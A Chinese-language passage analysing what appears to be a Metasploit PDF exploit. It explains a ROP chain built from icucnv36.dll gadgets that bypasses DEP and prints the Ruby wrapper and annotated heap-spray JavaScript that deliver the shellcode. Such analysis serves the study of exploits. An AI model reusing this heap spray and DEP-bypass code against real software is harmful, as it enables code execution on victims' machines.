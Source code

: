 ```asm
#0x0000258b,   # ??
#0x4d4d4a8a,   # ??
```

这段 payload 同样包含了一条 ROP 链，且其中的 ROP Gadget 均位于未开启 ASLR 的 icucnv36.dll 库中，其执行内容为调用四个函数，分别是

- CreateFileA 创建一个文件或设备，payload 创建了一个名为 iso88591 的文件，且该文件可读可写可执行
- CreateFileMappingA 创建文件映射内核对象，文件与物理页映射，payload 将创建的文件映射到了物理内存地址
- MapViewOfFile 将一个文件映射对象映射到当前应用程序的地址空间。payload 将创建的文件映射到了程序所处的虚拟内存地址空间
- memcpy 将源地址的内容复制到目的地址，payload 将 0x1000 字节

即通过前三个函数创建一个可读可写的内存段，并将 shellcode 复制到该内存段中，进而绕过 DEP 执行 shellcode。
在这之后，exp 创建了一段 JavaScrip 代码，并将上述 payload 及 shellcode 封装到了 JS 代码中，其中

```ruby
payload_buf = ''
payload_buf << stack_data
payload_buf << encoded_payload
escaped_payload = Rex::Text.to_unescape(payload_buf)
var_unescape  = rand_text_alpha(rand(100) + 1)
var_shellcode = rand_text_alpha(rand(100) + 1)
var_start     = rand_text_alpha(rand(100) + 1)
var_s         = 0x10000
var_c         = rand_text_alpha(rand(100) + 1)
var_b         = rand_text_alpha(rand(100) + 1)
var_d         = rand_text_alpha(rand(100) + 1)
var_3         = rand_text_alpha(rand(100) + 1)
var_i         = rand_text_alpha(rand(100) + 1)
var_4         = rand_text_alpha(rand(100) + 1)
```

用于封装 payload 的格式化 JS 代码为

```JavaScript
// 重命名函数
var #{var_unescape} = unescape;
// 编码 payload
var #{var_shellcode} = #{var_unescape}( '#{escaped_payload}' );
var #{var_c} = #{var_unescape}( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
// 不断拼接 #{var_c} 确保其足够大
while (#{var_c}.length + 20 + 8 < #{var_s}) #{var_c}+=#{var_c};
#{var_b} = #{var_c}.substring(0, (0x0c0c-0x24)/2);
// 拼接 shellcode 到  #{var_b} 的末尾
#{var_b} += #{var_shellcode};
// 拼接 #{var_c} 到  #{var_b} 的末尾
#{var_b} += #{var_c};
#{var_d} = #{var_b}.substring(0, #{var_s}/2);
// 不断拼接 #{var_d} 确保其足够大
while(#{var_d}.length < 0x80000) #{var_d} += #{var_d};
#{var_3} = #{var_d}.substring(0, 0x80000 - (0x1020-0x08) / 2);
var #{var_4} = new Array();
// Heap Spray
for (#{var_i}=0;#{var_i}<0x1f0;#{var_i}++) #{var_4}[#{var_i}]=#{var_3}+"s";
```
